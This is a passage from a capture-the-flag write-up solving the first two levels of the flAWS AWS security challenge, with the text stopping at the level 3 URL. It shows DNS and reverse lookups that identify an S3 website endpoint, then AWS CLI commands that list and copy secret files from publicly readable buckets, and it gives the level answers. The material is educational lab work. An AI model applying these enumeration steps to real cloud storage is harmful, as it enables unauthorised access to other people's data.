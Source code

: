 # flaws.cloud
+ http://flaws.cloud/

<center>
<pre>
 .d888 888        d8888 888       888  .d8888b.
d88P"  888       d88888 888   o   888 d88P  Y88b
888    888      d88P888 888  d8b  888 Y88b.
888888 888     d88P 888 888 d888b 888  "Y888b.
888    888    d88P  888 888d88888b888     "Y88b.
888    888   d88P   888 88888P Y88888       "888
888    888  d8888888888 8888P   Y8888 Y88b  d88P
888    888 d88P     888 888P     Y888  "Y8888P"
</pre>
</center>


## Solutions
- [Level 1](https://github.com/h4md153v63n/CloudSec/blob/main/07_flAWS/01_flaws.cloud.md#level-1)
- [Level 2](https://github.com/h4md153v63n/CloudSec/blob/main/07_flAWS/01_flaws.cloud.md#level-2)
- [Level 3](https://github.com/h4md153v63n/CloudSec/blob/main/07_flAWS/01_flaws.cloud.md#level-3)
- [Level 4](https://github.com/h4md153v63n/CloudSec/blob/main/07_flAWS/01_flaws.cloud.md#level-4)
- [Level 5](https://github.com/h4md153v63n/CloudSec/blob/main/07_flAWS/01_flaws.cloud.md#level-5)
- [Level 6](https://github.com/h4md153v63n/CloudSec/blob/main/07_flAWS/01_flaws.cloud.md#level-6)


### Level 1:
Go: http://flaws.cloud/hint1.html

```
┌─[cwl@RedCloud]─[~/Desktop]
└──╼ $dig flaws.cloud

; <<>> DiG 9.16.42-Debian <<>> flaws.cloud
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 55957
;; flags: qr rd ra; QUERY: 1, ANSWER: 8, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: Message has 8 extra bytes at end

;; QUESTION SECTION:
;flaws.cloud.			IN	A

;; ANSWER SECTION:
flaws.cloud.		5	IN	A	52.92.204.19
flaws.cloud.		5	IN	A	52.92.186.27
flaws.cloud.		5	IN	A	52.92.227.187
flaws.cloud.		5	IN	A	52.92.192.203
flaws.cloud.		5	IN	A	52.92.233.211
flaws.cloud.		5	IN	A	52.218.132.66
flaws.cloud.		5	IN	A	52.92.209.99
flaws.cloud.		5	IN	A	52.92.232.251

;; Query time: 160 msec
;; SERVER: 192.168.1.1#53(192.168.1.1)
;; WHEN: Tue Jun 04 13:19:21 IST 2024
;; MSG SIZE  rcvd: 165

┌─[cwl@RedCloud]─[~/Desktop]
└──╼ $nslookup flaws.cloud
Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	flaws.cloud
Address: 52.218.168.146
Name:	flaws.cloud
Address: 52.218.236.122
Name:	flaws.cloud
Address: 52.92.163.83
Name:	flaws.cloud
Address: 52.92.185.59
Name:	flaws.cloud
Address: 52.92.185.251
Name:	flaws.cloud
Address: 52.92.203.3
Name:	flaws.cloud
Address: 52.92.207.99
Name:	flaws.cloud
Address: 52.218.153.90
** server can't find flaws.cloud: NOTIMP
```

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/ea24c754-1743-4832-9c9f-8de4cc23c69c)


```
┌─[✗]─[cwl@RedCloud]─[~/Desktop]
└──╼ $nslookup 52.218.168.146
146.168.218.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.

Authoritative answers can be found from:
218.52.in-addr.arpa	nameserver = pdns1.ultradns.net.
218.52.in-addr.arpa	nameserver = x2.amazonaws.com.
218.52.in-addr.arpa	nameserver = x4.amazonaws.org.
218.52.in-addr.arpa	nameserver = x1.amazonaws.com.
218.52.in-addr.arpa	nameserver = x3.amazonaws.org.
x1.amazonaws.com	internet address = 156.154.64.10
x2.amazonaws.com	internet address = 156.154.65.10
x3.amazonaws.org	internet address = 156.154.150.1
x4.amazonaws.org	internet address = 204.74.120.1
pdns1.ultradns.net	internet address = 204.74.108.1
pdns1.ultradns.net	has AAAA address 2001:502:f3ff::1
```

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/75269f94-1c21-4954-88cb-885ac590174e)

Check: http://flaws.cloud.s3-website-us-west-2.amazonaws.com/

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/72326507-b007-4ff5-83ea-38282c4590b6)

Visit: http://s3-us-west-2.amazonaws.com/flaws.cloud

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/fe0fe170-3a3c-402e-b2e8-f630d5b624e9)

Navigate: http://s3-us-west-2.amazonaws.com/flaws.cloud/secret-dd02c7c.html

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/f5dfa251-2694-44ec-92ea-da3c1d9927ee)


### Level 2:
Visit: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/

Configure AWS CLI with your Access Key and Secret Key:

```
┌─[cwl@RedCloud]─[~/Desktop]
└──╼ $aws configure
AWS Access Key ID [****************JYCT]: A******************6
AWS Secret Access Key [****************lflS]: t*******************************R
Default region name [us-east-2]: us-west-2
Default output format [None]: 

```

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/260a7d24-a260-4cc3-95a0-83f1b878b27f)

```
┌─[cwl@RedCloud]─[~/Desktop]
└──╼ $aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --region us-west-2 --recursive
2017-02-27 07:32:15      80751 everyone.png
2017-03-03 09:17:17       1433 hint1.html
2017-02-27 07:34:39       1035 hint2.html
2017-02-27 07:32:14       2786 index.html
2017-02-27 07:32:14         26 robots.txt
2017-02-27 07:32:15       1051 secret-e4443fc.html
```

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/36ae40e4-9db0-4774-a264-2fd2017ba1b1)

```
┌─[cwl@RedCloud]─[~/Desktop]
└──╼ $aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html
-<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000; 
            border-width: 1px; border-style: solid;} 
        </style>
    </head>
<body 
  text="#00d000" 
  bgcolor="#000000"  
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">
    
<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_ 
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 3 is at <a href="http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud">http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</a>
```

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/2d6a8059-6065-46c3-a731-d1df22d7d65b)


### Level 3:
Visit: http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud







